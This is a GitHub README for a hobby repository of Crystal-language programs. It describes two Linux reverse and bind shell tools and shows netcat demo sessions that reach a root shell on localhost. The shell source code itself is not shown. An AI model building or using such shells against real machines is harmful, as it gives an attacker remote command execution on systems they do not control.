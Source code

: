 # crystalmeth
experiments with "crystal" language. As I faff with it I'll upload small programs here with some semblance of documentation. 

The docs for the lang are on the site: https://crystal-lang.org/

## backconnect.cr  
It is a reverse shell. 

Linux only (because I cheated and used syscalls for the dup2 part) reverse shell. Once I can be fucked, I'll fix it so it works properly on other platforms.

Demo:  
I mean. It is the most basic reverse shell. 
```
# crystal run backconnect.cr
(nothing happens)
--
attacker:~$  nc -lvp 42069
listening on [any] 42069 ...
connect to [127.0.0.1] from localhost [127.0.0.1] 35216
id
uid=0(root) gid=0(root) groups=0(root)
exit
```

## bindport.cr
Linux only (because I cheated and used syscalls for the dup2 part) bind shell. Once I can be fucked, I'll fix it so it works properly on other platforms.

Demo:  
I mean. It is the most basic bind shell. 

```
# crystal run bindport.cr
(nothing happens)
--
$ nc -v 127.0.0.1 42069
localhost [127.0.0.1] 42069 (?) open
id
uid=0(root) gid=0(root) groups=0(root)
```
